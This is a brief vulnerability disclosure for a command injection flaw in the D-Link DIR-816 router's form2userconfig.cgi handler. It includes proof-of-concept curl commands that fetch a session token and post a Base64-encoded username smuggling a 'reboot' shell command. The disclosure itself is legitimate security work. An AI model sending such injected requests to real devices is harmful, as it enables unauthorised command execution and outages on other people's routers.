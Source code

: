 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.


##### POC&&EXP
First, get the tokenid 
```
curl -s http://192.168.33.9/dir_login.asp  | grep tokenid
```
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=IjtyZWJvb3Q7Ig==&oldpass=123&newpass=MTIz&confpass=MTIz&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=xxxxx"#input id
```
It will decode our command Base64 and execute it 


